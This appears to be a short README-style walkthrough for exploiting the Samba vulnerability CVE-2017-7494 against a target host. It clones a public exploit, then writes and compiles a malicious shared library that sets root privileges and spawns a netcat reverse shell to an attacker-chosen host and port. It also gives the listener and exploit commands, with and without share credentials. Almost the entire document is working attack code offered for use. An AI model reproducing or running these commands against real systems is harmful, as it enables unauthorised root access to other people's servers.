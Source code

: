 ### Clone repo
```
git clone https://github.com/joxeankoret/CVE-2017-7494
```

### Create virtual environment and install dependencies
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip install pyasn1
pip install pycryptodome
```

### Create reverse shell
```
cd CVE-2017-7494
```

### Open shell.c and insert
```
#include <stdio.h>
#include <stdlib.h>
int samba_init_module(void)
{
	setresuid(0,0,0);
	system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <lhost> <lport> >/tmp/f");
}
```

### Compile
```
gcc -o shell.so -shared shell.c -fPIC
```

### Start listener
```
nc -lnvp <lport>
```

### Run exploit
```
./cve_2017_7494.py -t <rhost> -u <user> -P <password> --custom=shell.so
```

### Or run without user if user not needed for share
```
./cve_2017_7494.py -t <rhost> --custom=shell.so
```

### References
https://github.com/opsxcq/exploit-CVE-2017-7494  
https://www.exploit-db.com/exploits/42084  

